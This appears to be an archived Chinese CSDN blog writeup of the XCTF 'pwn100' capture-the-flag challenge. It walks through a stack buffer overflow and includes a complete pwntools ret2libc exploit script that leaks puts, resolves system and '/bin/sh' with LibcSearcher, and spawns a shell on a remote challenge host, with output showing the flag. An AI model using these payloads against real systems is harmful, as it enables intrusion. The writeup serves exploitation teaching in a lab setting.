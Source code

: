 <!--yml
category: 未分类
date: 2022-04-26 14:37:40
-->

# pwn100 [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列16_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103674766](https://blog.csdn.net/fastergohome/article/details/103674766)

题目地址：[pwn100](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4888&page=1)

本题已经是高手进阶区的第五题了，难度也在不断加大。需要补充的知识点也越来越多了。

废话不说，看看题目

![](img/73ead50b24afe3f0672e6d2bbf2197ed.png)没什么建议和描述，那就先下载附件，看看保护机制

```
root@mypwn:/ctf/work/python/pwn-100# checksec d0b5f9b486bb480c9035839ec896252e 
[*] '/ctf/work/python/pwn-100/d0b5f9b486bb480c9035839ec896252e'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

只开了NX，那就可以做栈溢出。

打开ida看了一些，这个程序比较简单，直接上c语言代码，我简单的调整了一下变量命名：

```
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  go_game();
  return 0LL;
}

int go_game()
{
  char szInputString; // [rsp+0h] [rbp-40h]

  read_string((__int64)&szInputString, 200);
  return puts("bye~");
}

__int64 __fastcall read_string(__int64 pszBuffer, signed int nSize)
{
  __int64 result; // rax
  signed int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; ; ++i )
  {
    result = (unsigned int)i;
    if ( i >= nSize )
      break;
    read(0, (void *)(i + pszBuffer), 1uLL);
  }
  return result;
}
```

注意到溢出点在go_game，很明显的read函数溢出。

检查了一下system和/bin/sh在程序里面都没有。所以我本次准备采用LibcSearcher，这个模块可以帮助我们从读取到的libc运行库函数地址，确定libc的基地址，从而通过偏移来确定system和/bin/sh。

我们先构建一下payload，一共需要两个payload：

1、获取puts函数地址

```
payload = 'A' * (0x40+8) + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
payload = payload.ljust(200, 'B')
```

2、运行system('/bin/sh')

```
payload = 'A' * (0x40+8) + p64(pop_rdi_ret) + p64(binsh_addr) + p64(system_addr)
payload = payload.ljust(200, 'B')
```

继续说一下pop_rdi_ret的获取方法

```
root@mypwn:/ctf/work/python/pwn-100# ROPgadget --binary d0b5f9b486bb480c9035839ec896252e --only "pop|ret" | grep rdi
0x0000000000400763 : pop rdi ; ret
```

main_addr就是main函数的地址，其他的变量定义可以直接看python脚本，具体如下：

```
#coding:utf8

from pwn import *
from LibcSearcher import * 
# context.log_level = 'debug'
process_name = './d0b5f9b486bb480c9035839ec896252e'
# p = process(process_name)
p = remote('111.198.29.45', 39499)
elf = ELF(process_name)

main_addr = 0x4006B8
pop_rdi_ret = 0x400763
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
def get_puts(p):
	payload = 'A' * (0x40+8) + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
	payload = payload.ljust(200, 'B')

	p.send(payload)
	p.recvuntil('bye~\n')
	puts_addr = u64(p.recv(6).ljust(8, '\x00'))
	log.info("puts_addr => %#x", puts_addr)
	p.recv(1)

	return puts_addr

puts_addr = get_puts(p)

libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')

payload = 'A' * (0x40+8) + p64(pop_rdi_ret) + p64(binsh_addr) + p64(system_addr)
payload = payload.ljust(200, 'B')
p.sendline(payload)

p.interactive()
```

执行结果如下：

```
root@mypwn:/ctf/work/python/pwn-100# python pwn-100.py 
[+] Opening connection to 111.198.29.45 on port 39499: Done
[*] '/ctf/work/python/pwn-100/d0b5f9b486bb480c9035839ec896252e'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] puts_addr => 0x7efcfcba5690
Multi Results:
 0: archive-old-glibc (id libc6-amd64_2.24-3ubuntu1_i386)
 1: archive-old-glibc (id libc6-amd64_2.24-3ubuntu2.2_i386)
 2: archive-old-glibc (id libc6-amd64_2.24-9ubuntu2.2_i386)
 3: ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
 4: archive-old-glibc (id libc6-amd64_2.24-9ubuntu2_i386)
Please supply more info using 
    add_condition(leaked_func, leaked_address).
You can choose it by hand
Or type 'exit' to quit:3
[+] ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64) be choosed.
[*] Switching to interactive mode
bye~
$ cat flag
cyberpeace{fa9353aa34f02d8d6044608735bd457e}
$ 
```

执行成功，拿到了flag。

本题的知识点主要是在没有system和/bin/sh的情况下如何通过栈溢出来获得libc的基地址，从而完成system及/bin/sh的推算。